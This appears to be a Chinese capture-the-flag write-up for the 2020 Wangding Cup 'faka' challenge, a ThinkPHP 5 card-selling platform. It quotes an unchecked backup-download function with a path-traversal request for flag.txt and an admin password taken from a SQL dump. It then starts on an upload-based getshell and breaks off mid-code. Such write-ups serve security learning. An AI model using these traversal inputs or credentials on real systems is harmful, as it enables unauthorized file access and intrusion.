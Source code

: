 ## [网鼎杯 2020 半决赛]faka
关键词：tp5
一个发卡平台没找到明显的利用点，这种现成的平台基本上都是有cve的。
给了源码，在tk.sql找到admin密码，解密得admincccbbb123，成功登录后台。
有点像之前一个更换主题getshell的，但这里不是。
有两种解法。

一、任意文件读取
seay也提示这里可能存在任意文件读取。但是提示的位置有600处没注意到。
位置：application/manage/controller/Backup.php
源码：
    function downloadBak() {
        $file_name = $_GET['file'];
        $file_dir = $this->config['path'];
        if (!file_exists($file_dir . "/" . $file_name)) { //检查文件是否存在
            return false;
            exit;
        } else {
            $file = fopen($file_dir . "/" . $file_name, "r"); // 打开文件
            // 输入文件标签
            header('Content-Encoding: none');
            header("Content-type: application/octet-stream");
            header("Accept-Ranges: bytes");
            header("Accept-Length: " . filesize($file_dir . "/" . $file_name));
            header('Content-Transfer-Encoding: binary');
            header("Content-Disposition: attachment; filename=" . $file_name);  //以真实文件名提供给浏览器下载
            header('Pragma: no-cache');
            header('Expires: 0');
            //输出文件内容
            echo fread($file, filesize($file_dir . "/" . $file_name));
            fclose($file);
            exit;
        }
    }
/manage/Backup/downloadBak?file=../../../../../../flag.txt

二、后台文件上传GetShell
位置：application/admin/controller/Plugs.php
上传的时候会先调用 upstate

     public function upstate()
    {
        $post = $this->request->post();
        $filename = join('/', str_split($post['md5'], 16)) . '.' . pathinfo($post['filename'], 4);
        // 检查文件是否已上传
        if (($site_url = FileService::getFileUrl($filename))) {
            $this->result(['site_url' => $site_url], 'IS_FOUND');
        }
        // 需要上传文件，生成上传配置参数
        $config = ['uptype' => $post['uptype'], 'file_url' => $filename];
        switch (strtolower($post['uptype'])) {
            case 'qiniu':
                $config['server'] = FileService::getUploadQiniuUrl(true);
                $config['token'] = $this->_getQiniuToken($filename);
                break;
            case 'local':
                $config['server'] = FileService::getUploadLocalUrl();
                $config['token'] = md5($filename . session_id());
                break;
            case 'oss':
                $time = time() + 3600;
                $policyText = [
                    'expiration' => date('Y-m-d', $time) . 'T' . date('H:i:s', $time) . '.000Z',
                    'conditions' => [['content-length-range', 0, 1048576000]],